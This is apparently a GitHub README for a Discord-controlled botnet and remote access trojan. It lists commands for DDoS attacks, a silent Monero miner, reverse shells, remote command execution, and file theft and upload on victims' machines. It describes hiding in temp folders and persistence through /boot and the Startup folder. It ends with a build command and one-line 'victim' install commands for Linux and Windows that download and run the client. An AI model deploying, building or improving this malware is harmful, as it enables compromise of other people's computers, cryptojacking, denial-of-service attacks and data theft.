 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

Need help? https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Bot Commands

* !sessions                              (List open sessions)
* !check                                 (Check miner & ddos status)
* !updatelinux < LINK >                  (Update RAT on linux platforms) (input Client link)
* !updatewin < LINK >                    (Update RAT on windows platforms) (input Client.exe link)
* !ddos < IP >                           (Start DDoS Attack)
* !stopddos                              (Stop DDoS)
* !miner < WALLET >                      (Start slient XMR Crypto Miner CPU + AMD/INTEL GPU's)
* !stopminer                             (Stop miner)
* !zmap                                  (ZMap subnet scan)

# Self Commands

* !info.< HOSTNAME >@< IP >                      (Send IP Information)
* !shell.< HOSTNAME >@< IP > < CMD >             (Run command)
* !revshell.< HOSTNAME >@< IP > < IP > < PORT >  (Reverse shell)
* !download.< HOSTNAME >@< IP > < URL > < NAME > (Download file to victim)
* !upload.< HOSTNAME >@< IP > < PATH >           (Upload file to bot)
* !nmap.< HOSTNAME >@< IP >                      (Nmap vuln scan)

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Supports Linux and Windows platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* Web automation to provide bots
* Discord botot status Examle= bots: 100
* !webcampic
* ?

# Build
pyinstaller --onefile --noconsole Client.py

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -o Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & if exist Client.exe del Client.exe & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe & Client.exe
